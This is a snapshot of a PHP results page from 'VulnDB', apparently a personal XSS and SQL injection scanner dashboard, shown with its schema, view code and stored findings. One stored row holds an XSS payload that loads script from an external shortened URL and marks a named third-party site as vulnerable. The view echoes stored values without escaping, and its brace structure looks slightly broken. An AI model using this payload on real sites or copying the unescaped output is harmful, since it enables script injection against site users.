
The page /vulndb/ce.php (signed in) on the database its author committed.
### tables this page shows
CREATE TABLE IF NOT EXISTS `xss` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `url` varchar(255) NOT NULL,
  `payload` varchar(255) NOT NULL,
  `vuln` tinyint(1) NOT NULL,
  PRIMARY KEY (`id`)
);

CREATE TABLE IF NOT EXISTS `sqli` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `url` varchar(255) NOT NULL,
  `metodo` varchar(4) NOT NULL,
  `postdata` varchar(255) NOT NULL,
  `vuln` tinyint(1) NOT NULL,
  PRIMARY KEY (`id`)
);

### vulndb/ce.php (the view, shortened to what this page needs)
<?php
include("includes/db.php");
include("includes/header.php");
include("includes/sidebar.php");
?>
                <div class="span9" id="content">
<div class="row-fluid">
                        <div class="block">
                            <div class="navbar navbar-inner block-header">
                                <div class="muted pull-left">Cross Site Scripting</div>
                            </div>
                            <div class="block-content collapse in">
                                <div class="span12">
<form action="ce.php" method="post">
  									<table class="table table-condensed">
						              <thead>
						                <tr>
						                  <th>URL</th>
						                  <th>Payload</th>
                                          <th>Vulner&#225;vel</th>
						                </tr>
						              </thead>
						              <tbody>
                                                                      	<?php
	$result = mysqli_query($mysqli,"SELECT * FROM xss ORDER BY id DESC");
while($row = mysqli_fetch_array($result)) {
?>
						                <tr>
						                  <td><a href="<?php echo $row['url'];?>"><?php echo (strlen($row['url']) > 50 ? substr($row['url'], 0, 50)."..." : $row['url']);?></a></td>
						                  <td><?php echo $row['payload'];?></td>
                                          <td><?php if($row['vuln'] == '1'){echo '<font color="#A10000">Sim</font>';}else{echo '<font color="#3C8F3C">N&#227;o</font>';?></td>
                                          <td><input name="checkbox[]" type="checkbox" value="<?php echo $row['id']; ?>"></td>
						                </tr>
						                <?php }; ?>
						              </tbody>
						            </table>
                                </div>
                            </div>
                        </div>
                        <p align="right"><input type="checkbox" onClick="toggle(this)" /> All</p>
  <p align="right"> <button class="btn btn-danger" name="delxss"><i class="icon-remove icon-white"></i>Delete</button></p>
                        <div class="block">
                            <div class="navbar navbar-inner block-header">
                                <div class="muted pull-left">Inje&#xE7;&#xE3;o SQL</div>
                            </div>
                            <div class="block-content collapse in">
                                <div class="span12">
  									<table class="table table-condensed">
						              <thead>
						                <tr>
						                  <th>URL</th>
						                  <th>M&#xE9;todo</th>
                                          <th>Post Data</th>
                                          <th>Vulner&#225;vel</th>
						                </tr>
						              </thead>
						              <tbody>
                                                                      	<?php
	$result = mysqli_query($mysqli,"SELECT * FROM sqli ORDER BY id DESC");
while($row = mysqli_fetch_array($result)) {
?>
						                <tr>
						                  <td><a href="<?php echo $row['url'];?>"><?php echo (strlen($row['url']) > 50 ? substr($row['url'], 0, 50)."..." : $row['url']);?></a></td>
						                  <td><?php echo $row['metodo'];?></td>
                                          <td><?php echo $row['postdata'];?></td>
                                          <td><?php if($row['vuln'] == '1'){echo '<font color="#A10000">Sim</font>';}else{echo '<font color="#3C8F3C">N&#227;o</font>';}}?></td>
                                          <td><input name="checkbox2[]" type="checkbox" value="<?php echo $row['id']; ?>"></td>
						                </tr>
						                <?php }; ?>
						              </tbody>
						            </table>
                                </div>
                            </div>
                        </div>
                        <p align="right"><input type="checkbox" onClick="toggle2(this)" /> All</p>
                        <button style="float:right" class="btn btn-danger" name="delsqli"><i class="icon-remove icon-white"></i>Delete</button>
                    </div>
                </div>
            </div>
            <hr>
            <footer>
                <p>&copy; VulnDB | <a href="https://github.com/joaovarelas">Jo&#227;o Varelas</a></p>
            </footer>
        </div>
    </body>
</html>

### vulndb/assets/styles.css (style rules this page uses)
body { padding-top: 0; padding-bottom: 40px; background-color: #f5f5f5; }
@media (min-width: 979px) { body { padding-top: 60px; } }
#content { margin-left:0px; }
.block { border: 1px solid #ccc; background: white; margin: 1em 0em; border-top: none; }
.block-content { margin: 1em; min-height: .25em; }
.block-header { margin-bottom: 0px; border-right: none; border-left: none; -webkit-border-radius: 0px; -moz-border-radius: 0px; border-radius: 0px; }
.block-header div { padding-top: 10px; }

### rows shown on the page
xss: url "http://www.epinfante.pt/recursoshumanos/index.php?", payload "\"'/><script src=\"http://goo.gl/Jbqdvv\"></script>", vuln "Sim"
sqli: url "http://workstation/sandbox/sqli.php?id=1", metodo "GET", vuln "Sim"
sqli: url "http://workstation/sandbox/sqli.php?id=", metodo "GET", vuln "Sim"

### other values the page prints
$_SESSION['username'] "varelas"
